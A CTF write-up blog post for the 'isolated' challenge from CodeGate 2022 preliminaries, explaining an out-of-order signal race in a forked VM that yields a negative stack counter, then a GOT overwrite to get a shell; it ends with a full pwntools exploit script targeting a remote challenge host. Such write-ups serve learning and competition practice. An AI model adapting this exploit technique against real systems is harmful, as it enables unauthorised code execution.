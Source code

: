 ```yaml
---
title: Communication of Processes in Linux - Isolated
date: 2022-02-27 11:11:21
tags: CTF
---
```

isolated CodeGate 2022, Preliminary
<!--more-->

# Prologue

I played this CTF with my teamates @r3kapig, we ranked 10th(5330 points). It's a pity that we need 28 pints more to get the tickets to
the final. But I really enjoy this CTF. I spent the whole day on this
challenge, isolated. Besides, I learned a lot about the linux signal and
communication between porcesses.

# Intro to the challenge

It's a simple challenge. It uses fork to get a child process They use
shared memory and signals to communicate with each other.

#### Parent Process

It uses \"signal\" function to register several signals, including
SIGHUG, SIGINT, SIGQUIT, and SIGILL. It replaces the original fucntions
with our VM atomic operations, including PUSH, POP, CLEAN STACK, and
LOG.

#### Child Process

The son child implements a VM and takes our inputs as code. There is no
vulnerability in the VM or the VM-atomic-operations.

In the vm we have two not-blocked-operations and 8 blocked-operations.
blocked-operations would block until it gets the result from another
process while the not-blocked ones don't care about the results.

#### PWN

Our goal is to escape from the VM and get a shell. The venerability of
this VM is that the linux signal is out-of-order and the
handle-functions are not the atomic operations.

# Solution

#### Init

I don't know if my guess is correct or not, because the debugging of
multi-process challenge is intricate, I just had a try (atcually tons of
tries) and it works!

#### Background

It's out-of-order when the signal is processed and if the signals are
processed in the following order we could get a negative stack counter.

#### My Guess

We could split the POP handle function into 2 steps.

1\. Check if the stack counter is less than 0

2\. Decrese the stack counter

#### Trigger

We can trigger the vulnerability by following steps.

1\. Clean Stack to set stack counter to 0

2\. Push Signal to set stack counter to 1

3\. Signal-POP 1: pop-handle-step1

4\. Signal-POP 2: pop-handle-step1

5\. Signal-POP 1: step2

6\. Signal-POP 2: step2

7\. Get a negative stack counter

#### Get a shell

The following exploitation is more straightforward. We could modify the
got and use one-gadget to get a shell. I tried printf@got but failed and
I succeeded in hijacking put@got.

# Exploit
```python
        from pwn import *
        def push(val):
            return p8(0)+p32(val)
        def pop():
            return b'\x01'
        def div(v1,v2):
            return p8(5)+b'f'+p32(v1)+b'f'+p32(v2)
        def log(v):
            return p8(10)+p8(0x66)+p32(v)
        def eee(idx,val):
            # cmp + je
            return p8(6)+b'U'+b'f'+p32(val)+p8(8)+b'f'+p32(idx)
        def eax(idx):
            # cmp + je
            return p8(6)+b'f'+p32(0)+b'U'+p8(8)+b'f'+p32(idx)
        def add(v1,v2):
            return p8(2)+b'f'+p32(v1)+b'f'+p32(v2)
        def safe_show2():
            return p8(6)+b'U'+b'U'
        def hangup(off):
            return p8(7)+p32(off)
        #context.log_level='debug'
        #p= process("./isolated")
        p=remote("3.38.234.54",7777)
        #p=remote("0.0.0.0",7777)
        sa = p.sendafter
        def loopn(n):
            res = b''
            for x in range(n):
                res+=safe_show2()
            return res
        pay  = log(1)+push(0)+log(1)+pop()+pop()+pop()+pop()
        pay += b'\x09'+eax(len(log(0)))
        pay += loopn(37-9)+p8(6)+b'Uf'+p32(0x132)
        pay += p8(2)+b'U'+b'f'+p32(0x8997c)+safe_show2()
        pay += log(1)+hangup(len(pay))
        
        sa("opcodes >",pay.ljust(0x300,b'\x0f'))
        sleep(1)
        p.read()
        p.send(b"cat flag*\n")
        p.interactive()
```
